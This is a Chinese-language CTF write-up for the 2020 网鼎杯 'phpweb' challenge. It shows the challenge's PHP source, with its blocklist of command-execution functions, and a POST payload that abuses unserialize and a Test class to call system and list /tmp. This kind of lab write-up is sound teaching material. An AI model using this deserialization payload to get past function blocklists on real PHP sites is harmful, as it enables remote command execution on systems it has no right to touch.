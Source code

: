 # \[网鼎杯 2020 朱雀组]phpweb

## \[网鼎杯 2020 朱雀组]phpweb

## 考点

* PHP代码执行
* PHP反序列化

## wp

burp抓包发现显示报错信息

![](../.gitbook/assets/image\_s75G2mQJRECdxqH5RSYjtB.png)

试着去修改POST内容，发现后端使用的是call\_user\_func这个函数

![](../.gitbook/assets/image\_uSxNKFfmSx2r3FMxcaicbN.png)

POST内容func=readfile\&p=index.php可以获取源码

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

命令执行ban了很多函数，然后给了一个Test类，表面上是个命令执行，实际上是个反序列化是吧

POST数据`func=unserialize&p=O:4:"Test":2:{s:1:"p";s:7:"ls /tmp";s:4:"func";s:6:"system";}`

flag四处找一下就可以发现，一般就网站根目录，根目录，home目录，tmp目录

最后读取flag

![](../.gitbook/assets/image\_fcfoJ6nrbqQXseCcNJpcqB.png)

## 小结

1. 多抓包看请求内容
